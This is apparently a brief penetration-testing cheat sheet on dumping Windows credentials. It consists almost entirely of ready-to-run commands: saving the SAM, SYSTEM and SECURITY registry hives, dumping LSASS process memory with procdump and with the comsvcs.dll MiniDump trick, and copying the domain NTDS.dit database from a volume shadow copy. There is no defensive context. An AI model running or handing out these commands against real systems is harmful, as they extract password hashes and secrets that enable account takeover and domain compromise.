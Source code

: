 # Dumping Credentials

## Dumping registry hives

```batch title="cmd.exe"
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

## Dumping LSASS memory

```batch title="cmd.exe"
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

```batch title="cmd.exe (Cloned Process)"
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

```batch title="cmd.exe (comsvcs.dll)"
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

## Copying NTDS.dit

```powershell title="Create shadow copy and copy NTDS.dit"
vssadmin CREATE SHADOW /For=C:
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit